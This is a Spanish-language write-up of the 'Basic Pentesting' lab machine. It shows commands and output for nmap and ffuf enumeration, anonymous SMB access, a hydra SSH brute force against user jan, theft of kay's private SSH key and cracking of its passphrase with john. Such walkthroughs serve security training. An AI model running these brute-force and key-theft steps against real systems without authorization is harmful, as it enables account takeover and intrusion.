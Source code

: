 Basic Pentesting — Writeup
TL;DR
Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con staff.txt que sugiere el usuario jan. Se obtuvo acceso SSH a jan por fuerza bruta (wordlist rockyou), desde jan se recuperó la clave privada de kay y se crackeó su passphrase con john, permitiendo acceso final como kay.

Enumeración (nmap)
Comando

nmap -sV --open $IP
Comentario: -sV detecta versiones de servicios.

Resultado

# Nmap 7.95 scan initiated Fri Sep 26 19:54:46 2025 as: /usr/lib/nmap/nmap --privileged -sV --open $IP
Nmap scan report for $IP
Host is up (0.35s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 26 19:55:04 2025 -- 1 IP address (1 host up) scanned in 18.58 seconds
Resumen

22/tcp open ssh (OpenSSH 8.2p1)
80/tcp open http (Apache/2.4.41)
139/445/tcp open Samba (smbd)
Enumeración de directorios web (ffuf)
Comando

ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
Comentario: -t 300 define la cantidad de hilos; -s silencia headers extra; -c activa color en resultado.

Resultado

# Priority-ordered case-sensitive list, where entries were found
#
# Suite 300, San Francisco, California, 94105, USA.
# Copyright 2007 James Fisher
# or send a letter to Creative Commons, 171 Second Street,
# license, visit http://creativecommons.org/licenses/by-sa/3.0/
#

# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
Resultado relevante

/development
Smb — share anónimo
Enumeración

smbclient -L //$IP
Resultado

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server $IP (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
Resultado relevante

Share accesible: Anonymous (Disk)
Conexión y archivo

smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
staff.txt
Comentario: Indicio de usuario jan. Revisar si el share expone archivos sensibles o rutas del filesystem.

Fuerza bruta SSH (usuario: jan)
Comando

hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
Comentario: -l especifica login; -P wordlist; -t 4 tareas paralelas. Usar siempre con autorización.

Resultado

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[STATUS] 46.00 tries/min, 46 tries in 00:01h, 14344353 to do in 5197:14h, 4 active
[STATUS] 52.33 tries/min, 157 tries in 00:03h, 14344242 to do in 4568:14h, 4 active
[STATUS] 52.29 tries/min, 366 tries in 00:07h, 14344033 to do in 4572:20h, 4 active
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
Acceso inicial y obtención de clave
Operaciones realizadas

ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
Comentario: La clave privada id_rsa estaba accesible desde la cuenta jan.

Cracking de passphrase y acceso final
Conversión y cracking

ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
Resultado

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Uso

ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
